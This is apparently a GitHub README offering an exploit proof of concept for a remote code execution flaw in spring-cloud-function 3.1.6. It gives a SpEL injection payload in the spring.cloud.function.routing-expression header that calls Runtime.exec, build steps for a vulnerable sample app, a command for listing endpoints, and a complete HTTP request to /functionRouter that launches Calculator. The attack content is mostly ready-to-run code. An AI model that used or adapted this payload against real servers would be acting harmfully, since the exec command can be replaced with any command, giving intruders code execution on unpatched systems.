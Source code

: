 [![Tweet](https://img.shields.io/twitter/url/http/Hktalent3135773.svg?style=social)](https://twitter.com/intent/follow?screen_name=Hktalent3135773) [![Follow on Twitter](https://img.shields.io/twitter/follow/Hktalent3135773.svg?style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=Hktalent3135773) [![GitHub Followers](https://img.shields.io/github/followers/hktalent.svg?style=social&label=Follow)](https://github.com/hktalent/)
[![Top Langs](https://profile-counter.glitch.me/hktalent/count.svg)](https://51pwn.com)


# spring-spel-0day-poc
spring-cloud/spring-cloud-function RCE EXP POC
https://github.com/spring-cloud/spring-cloud-function
header
```
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("open -a calculator.app")
```
# build
```bash
wget https://github.com/spring-cloud/spring-cloud-function/archive/refs/tags/v3.1.6.zip
unzip v3.1.6.zip
cd spring-cloud-function-3.1.6
cd spring-cloud-function-samples/function-sample-pojo
mvn package
java -jar ./target/function-sample-pojo-2.0.0.RELEASE.jar
```
<img width="1236" alt="image" src="https://user-images.githubusercontent.com/18223385/160410727-35bf6bae-bb32-48c1-9081-edeef1e510f1.png">

# get path lists for test

```bash
find . -name "*.java"|xargs -I % cat %|grep -Eo '"([^" \.\/=>\|,:\}\+\)'"'"']{8,})"'|sort -u|sed 's/"//g'
```
```
...
functionRouter
uppercase
lowercase
...
```

<img width="829" alt="image" src="https://user-images.githubusercontent.com/18223385/160410037-12fd9be5-d35f-4009-9333-632eb29df54c.png">

# poc1

```
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("open -a /System/Applications/Calculator.app")
Content-Length: 5

51pwn
```
